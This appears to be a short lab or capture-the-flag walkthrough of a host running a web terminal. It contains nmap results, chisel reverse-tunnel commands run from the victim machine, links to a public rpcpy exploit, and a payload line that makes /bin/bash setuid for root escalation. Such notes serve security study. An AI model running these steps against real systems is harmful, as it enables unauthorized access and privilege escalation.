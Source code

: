 ____

> [!info]
> IP=192.168.179.210

# Nmap 

|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|8000/tcp|open|http-alt|

```python
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
8000/tcp open  http-alt ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
|_http-server-header: ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
|_http-title: ttyd - Terminal

...
```

## 8000 - http

![[Pasted image 20240202112855.png]]

![[Pasted image 20240202113637.png]]

### Reverse Port Forwarding

#### Kali
```bash
./chisel server --reverse -p 1234
```

#### Victim machine

```bash
./chisel client 192.168.45.234:1234 R:65432:127.0.0.1:65432
```

![[Pasted image 20240202122811.png]]

https://www.exploit-db.com/exploits/50983?source=post_page-----7619983c7d63--------------------------------


https://raw.githubusercontent.com/ehtec/rpcpy-exploit/main/rpcpy-exploit.py


```python
def main():
    exec_command('chmod 4777 /bin/bash')
```